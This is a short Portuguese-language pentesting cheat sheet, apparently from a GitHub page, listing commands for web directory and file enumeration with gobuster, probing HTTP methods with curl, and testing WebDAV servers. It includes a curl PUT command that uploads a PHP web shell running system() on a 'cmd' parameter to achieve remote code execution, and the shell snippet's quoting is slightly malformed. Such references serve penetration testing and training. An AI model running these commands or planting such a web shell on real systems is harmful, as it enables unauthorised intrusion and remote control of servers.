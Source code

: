 # Enumeração de Diretórios e Arquivos

Enumeração de diretórios com wordlist e filtro de status code.
`gobuster dir -e -u http://192.168.0.1/ -w /wordlist.txt -s "200,403"`

Enumeração de arquivos
`gobuster dir -e -u http://192.168.0.1/ -w /wordlist.txt -x .php,.txt,.sql,.bkp`

Verificar métodos aceitos
`curl -v -X OPTIONS http://192.168.0.1/`

Testar a criação de arquivo com método PUT
`curl -v -X PUT /alvo/arquivo.php`

Criar e enviar payload de RCE em PHP
`curl -v -X PUT -d "<?php system(\$_GET[]"cmd"]); ?>" http://192.168.0.1/rce.php`

Upload de arquivo com curl
`curl -v http://192.168.0.1/ --upload-file arquivo.php`

Conectar em um servidor webdav
`cadaver http://192.168.0.1/webdav/`

Enumerar métodos e extensões permitidas em um servidor webdav
`davtest --url http://192.168.0.1/webdav/`